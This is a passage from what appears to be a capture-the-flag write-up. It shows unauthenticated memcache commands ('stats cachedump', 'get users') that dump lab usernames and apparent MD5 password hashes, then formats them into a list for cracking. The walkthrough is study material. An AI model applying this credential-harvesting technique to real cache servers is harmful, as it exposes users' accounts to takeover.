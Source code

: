 After reading up on the memcache documentation we can run some simple tests with the stats command:
```
stats cachedump 26 0
ITEM users [24625 b; 1546048892 s]

stats cachedump 16 0
ITEM stock [2807 b; 1547613599 s]
END
```

Stock and Users seem like 2 things the web app on port 80 might be using (users for login and stock to build the "items in stock" listed on the page. 

Okay, this bit took a little while to figure out. The cached keys clear really quick. The technique here is to force a cache update. Since we believe the app on port 80 pulls data from memcache, not a database directly, maybe we need to refresh or re-login to it if we stop getting results from our memcache commands.

We are not too interested in the stock list, but we are definitely interested to see what users are being loaded into memcache:

![227016733.png]({{site.baseurl}}/Images/Dab/227016733.png)

The following commands are entered into the "Line to send" field with the port 11211:
```
stats cachedump 26 0
ITEM users [24625 b; 1546048892 s]

get users
VALUE users 0 24625

{"quinton_dach": "17906b445a05dc42f78ae86a92a57bbd", "jackie.abbott": "c6ab361604c4691f78958d6289910d21", "isidro": "e4a4c90483d2ef61de42af1f044087f3", "roy": "afbde995441e19497fe0695e9c539266", "colleen": "d3792794c3143f7e04fd57dc8b085cd4", "harrison.hessel": "bc5f9b43a0336253ff947a4f8dbdb74f", "asa.christiansen": "d7505316e9a10fc113126f808663b5a4", "jessie": "71f08b45555acc5259bcefa3af63f4e1", "milton_hintz": "8f61be2ebfc66a5f2496bbf849c89b84", "demario_homenick": "2c22da161f085a9aba62b9bbedbd4ca7", "paris": "ef9b20082b7c234c91e165c947f10b71", "gardner_ward": "eb7ed0e8c112234ab1439726a4c50162", "daija.casper": "4d0ed472e5714e5cca8ea7272b15173a", "alanna.prohaska": "6980ba8ee392b3fa6a054226b7d8dd8f", "russell_borer": "cb10b94b5dbb5dfab049070a2abda16e", "domenica.kulas": 
... 
"01971ddb0d362010a8e484f0630de1e9", "devon": "953155467fab407a18cb7c8f576d1ef6", "kory": "c40c83a8bd2914202bd22770405b0b4c", "keely.reynolds": "8b0b59e115aad4d3deee62b591c80b28", "adrianna": "3ceb64d1364a8c92134484029e4f2770", "jaylin.langworth": "f3e06518bbfa9d108ad30cf5628e480a", "agustin.kreiger": "a434c202f65475988efa9622a77f9594", "shaylee_roob": "81dbedf631f0dd59d00403c661972c0a", "zelma": "55f0db8276de5dc76d9b858bd0de78a0"}

END
```

We get a large JSON string response with usernames and what look like password hashes. After cleaning it all up we are left with a decent sized list that we need to crack:
```
quinton_dach:17906b445a05dc42f78ae86a92a57bbd
jackie.abbott:c6ab361604c4691f78958d6289910d21
isidro:e4a4c90483d2ef61de42af1f044087f3
roy:afbde995441e19497fe0695e9c539266
colleen:d3792794c3143f7e04fd57dc8b085cd4
harrison.hessel:bc5f9b43a0336253ff947a4f8dbdb74f
asa.christiansen:d7505316e9a10fc113126f808663b5a4
jessie:71f08b45555acc5259bcefa3af63f4e1
milton_hintz:8f61be2ebfc66a5f2496bbf849c89b84
demario_homenick:2c22da161f085a9aba62b9bbedbd4ca7
paris:ef9b20082b7c234c91e165c947f10b71
gardner_ward:eb7ed0e8c112234ab1439726a4c50162
daija.casper:4d0ed472e5714e5cca8ea7272b15173a
alanna.prohaska:6980ba8ee392b3fa6a054226b7d8dd8f
russell_borer:cb10b94b5dbb5dfab049070a2abda16e
```